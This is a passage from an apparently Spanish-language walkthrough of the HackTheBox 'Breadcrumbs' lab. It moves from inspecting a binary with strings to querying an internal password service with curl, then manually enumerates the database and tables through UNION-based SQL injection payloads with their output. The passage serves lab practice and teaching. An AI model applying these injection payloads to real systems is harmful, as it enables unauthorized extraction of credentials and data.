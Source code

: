 ```
strings ./Krypter_Linux | grep -i pass
```

![grep](/assets/img/Linux/Breadcrumbs/grep.png)

Pasamos la prueba :sob:

![sudor](/assets/img/Linux/Breadcrumbs/sudor.gif)

Tenemos lo siguiente :

```bash
Get password from cloud and AUTOMATICALLY decrypt!http://passmanager.htb:1234/index.phpmethod=select&username=administrator&table=passwords
```

Ese puerto no lo identificamos en nuestro escaneo, usamos `netstat -ant` para verificar internalmente

![internal](/assets/img/Linux/Breadcrumbs/internal.png)

Asi que procedemos: 

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords"
```

Nos arroja devuelta esto:

```php
selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(16) "k19D193j.<19391("  }}
```

Tenemos una key AES.  Apartir de aqui podemos proceder de dos formas, SQLi manual o SQLMAP. Hagamos las dos.

## SQLi Manual

Vamos hacer un Union Select 

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+1%23&table=passwords"
```

![sqli_manual](/assets/img/Linux/Breadcrumbs/sqli_manual.png)

Identifiquemos la DB

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+database()%23&table=passwords"selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(5) "bread"  }}
```

DB: Bread

Ahora sacamos las tablas:

```bash
curl "http://127.0.0.1:1234/index.php?method=select&username='+union+select+group_concat(table_name)+from+information_schema.tables+where+table_schema='bread'%23&table=passwords"selectarray(1) {  [0]=>  array(1) {    ["aes_key"]=>    string(9) "passwords"  }}
```
